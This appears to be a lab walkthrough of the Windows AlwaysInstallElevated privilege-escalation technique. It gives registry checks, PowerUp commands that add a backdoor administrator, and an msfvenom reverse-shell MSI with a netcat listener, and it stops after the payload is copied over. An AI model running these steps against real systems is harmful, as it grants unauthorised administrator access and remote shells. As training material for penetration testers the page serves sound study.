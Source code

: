 ## <span style="color:lightgreen">Detection</span>
### Windows VM

1. Open command prompt and type: 
```console
C:\Temp> reg query HKLM\Software\Policies\Microsoft\Windows\Installer
```
+ `0x1` means its ON
![image](https://user-images.githubusercontent.com/59029171/161007111-57c898d9-d830-45a5-9a2c-f9e867f6c58b.png)

2. In command prompt type: 
```console
C:\Temp>reg query HKCU\Software\Policies\Microsoft\Windows\Installer
```
+ `0x1` means its ON
![image](https://user-images.githubusercontent.com/59029171/161007974-38e7b355-0c5e-49ff-9886-6878bbbe86a6.png)

From the both output, we notice that `“AlwaysInstallElevated”` value is `1`. Hence, we can abuse this function to get privilege escalation.

### Using PowerUp

1. Run Powerup.ps1 and Run `Invoke-AllChecks` (check the AlwaysInstallElevated field)
```console
C:\Temp> powershell -ep bypass
PS C:\Temp>. .\PowerUp.sp1
PS C:\Temp> Invoke-AllChecks
```
![image](https://user-images.githubusercontent.com/59029171/161008622-848721f3-ddf2-4c17-af2a-a8e7f592a3e1.png)

2. Run `Write-UserAddMSI` and Add backdoor user in *Administrators* group (Required RDP access)
![image](https://user-images.githubusercontent.com/59029171/161009230-2b8b4782-60cc-4301-b1ac-d9595b34c392.png)

3. Check local Administrators
```console
C:\Temp> net localgroup administrators
# now backdoor is added to the localgroup administrators group
```

## <span style="color:lightgreen">Exploitation</span>

### Kali VM

1. Start a netcat listener
```console
$ sudo nc -nvlp 53
```
2. Open an additional command prompt and type: 
```console
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=[tun0 IP] LPORT=53 -f msi -o setup.msi
```
3. Copy the generated file, `setup.msi`, to the Windows VM.
